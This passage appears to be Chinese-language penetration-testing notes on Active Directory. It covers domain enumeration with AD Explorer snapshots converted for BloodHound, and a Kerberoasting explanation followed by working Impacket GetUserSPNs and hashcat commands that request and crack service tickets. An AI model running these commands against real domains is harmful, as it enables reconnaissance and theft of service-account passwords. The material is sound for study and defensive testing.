 ![](../assets/post_img/Snipaste_2024-05-07_01-05-20.png)

```
2. Adexplorer

Active Directory Explorer(AD Explorer)是微软的一款域内信息查询工具，它是独立的可执行文件，无需安装
它能够列出域组织架构、用户账号、计算机账号等，它可以帮助你寻找特权用户和数据库服务器等敏感目标

ADExplorer64.exe -snapshot "" result.dat /accepteula

将Adexplorer导出的快照文件可以使用ADExplorerSnapshot.py工具转换为 json 格式的文件导入到 bloodhound(v4,2 版本以上)中进行图形化分析
```

```
python3 ADExplorerSnapshot.py result.dat -o result
```

### <span style="color:#F98B26">2.2.2.3 kerberoasting 攻击</span>
https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html
```
漏洞原理:

当域内用户去请求域内某个服务资源时，先会通过 AS 进行身份认证，通过后会返回一个用用户密码 hash 加密的 TGT 给用户，用户拿着 TGT 向 TGS 去请求，TGS 会返回一个用对应服务账号的密码 hash 加密过的专门用于访问特定服务的服务票据回来，只要用户提供的票据正确，服务就会返回自身 hash 加密的tgs 票据

那么如果我们有一个域用户，就可以申请服务的 tgs 票据，本地爆破服务 hash 得到服务密码，kerberos 协议使用的加密可以使用 y=f(x,key)来表示，算法f为已知的对称加密算法如 rc4_hmac_nt，密钥 key 为 ntlm 值，待加密数据x为用户名，主机 IP，和当前时间戳等，当获取到y即加密后的数据(tgs 票据)，即可爆破密钥，密钥越简单，被破解的几率越大，这个过程叫做 Kerberoasting
```

```
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py blackops.local/fsociety:P@ssw0rd -dc-ip 192.168.0.56 -request

hashcat -m 13100 -o cracked.txt -a 0 Hash.txt wordlist.txt
```
